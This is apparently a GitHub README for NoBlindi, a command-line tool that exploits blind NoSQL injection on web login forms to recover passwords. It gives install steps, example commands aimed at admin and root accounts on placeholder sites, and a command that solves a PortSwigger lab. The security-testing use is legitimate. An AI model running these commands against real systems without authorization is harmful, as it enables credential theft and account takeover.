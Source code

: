 # NoBlindi
This tool is designed for testing the security of NoSQL databases in web applications. It focuses on identifying and exploiting blind NoSQL injection vulnerabilities to recover passwords. It's a command-line tool, making it easy to integrate into various testing workflows.
<p align="center"><img src="https://github.com/YasserREED/NoBlindi/assets/79475504/0b3ca6b0-752f-48fe-bc11-362b89f2ece8"></p>


![](https://img.shields.io/badge/Version-%20v1.0.0-blue)
![](https://img.shields.io/badge/Twitter-%20YasserREED-blue)
![](https://img.shields.io/badge/YouTube-%20YasserRED-red)

#### Features:
- **Blind NoSQL Injection for Password Recovery**
- **Customizable Parameters for Targeted Attacks**
- **Simple Command-Line Interface**
- **Cross-Platform Compatibility and Support**

## How to Download NoBlindi in Linux

### Copy this Link
```console
YasserREED@Linux:~$ sudo git clone https://github.com/YasserREED/NoBlindi.git
```
### Enter The File
```console
YasserREED@Linux:~$ cd NoBlindi/
```
### Download requirement library
```console
YasserREED@Linux:~$ pip install -r requirements.txt
```
### Open the tool by `python3`
```console
YasserREED@Linux:~$ python3 NoBlindi.py -h
```

<br>

## NoBlindi Help Guide

```console
YasserREED@Linux:~$ python3 NoBlindi.py -h
```

```console
YasserREED@Linux:~$ python3 NoBlindi.py -u https://example.com/login -uf 'username' -pf password -rn 'admin' -b '{"username":"", "password":""}' -sc 200 -f "Invalid credentials"
YasserREED@Linux:~$ python3 NoBlindi.py -u https://example.com/login -uf 'user' -un 'admin' -pf 'pass' -b '{"user":"", "pass":"", "redirect":"/dashboard", "security_question":"", "security_answer":""}' -sc 302 --redirect -sh "Authorization" -f "Login failed"
YasserREED@Linux:~$ python3 NoBlindi.py -u https://examplecorp.com/admin -uf 'login' -pf password -un 'superadmin' -b '{"login":"", "password":"start123!", "last_active_timestamp":"", "login_count":"", "account_status":"active"}' -sc 200 -f "Access Denied"
YasserREED@Linux:~$ python3 NoBlindi.py -u https://internalsite.example.org/login -uf 'username' -un 'root' -b '{"username":"", "password":"", "otp_code":"", "session_expiry":"1hr", "browser_info":"Mozilla/5.0"}' -sc 200 - "*+.?|{}[]"
YasserREED@Linux:~$ python3 NoBlindi.py -u https://api.example.com/v1/authenticate -uf 'email' -un 'johndoe@example.com' -pf 'pwd' -b '{"email":"", "pwd":"", "api_key":"", "request_time":"2023-03-15T12:00:00Z", "client_version":"1.2.3"}' -sc 200 -sh "JWT-Token" -f "Unauthorized
```

<br>

## Commands Examples

### Simple example:
```console
YasserREED@Linux:~$ python3 NoBlindi.py -u https://www.attacker.com/login -uf 'username' -pf password --username 'admin' -b '{"username":"", "password":""}'
```

### Make custom condition to check will status code 200 and login failed message:
```console
YasserREED@Linux:~$ python3 NoBlindi.py -u https://www.attacker.com/login -uf 'username' -pf password --username 'admin' -b '{"username":"", "password":""}' -success_code 200 -f "Invalid username or password"
```

<br>

## Portswigger Lab

1- Access the Lab: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

2- Use this command to solve the protswigger lab and retrieve the admin password:

```console
YasserREED@Linux:~$ python3 NoBlindi.py -u https://0a7a0055033f04f080539ef200bc00b5.web-security-academy.net/login  -uf 'username' -pf password -rn 'admin' -b '{"username":"", "password":""}' -sc 302 -rn 'admin' -r
```

### When we run the command:
![image](https://github.com/YasserREED/NoBlindi/assets/79475504/4a8d5682-ab1e-411c-94c4-f6803fdaaadf)

### After the tool is finished:
![image](https://github.com/YasserREED/NoBlindi/assets/79475504/fa5cc2ce-7654-4dac-b9b3-beb6af768fab)

---
<p align="center"> Enjoy! :heart_on_fire: </p>
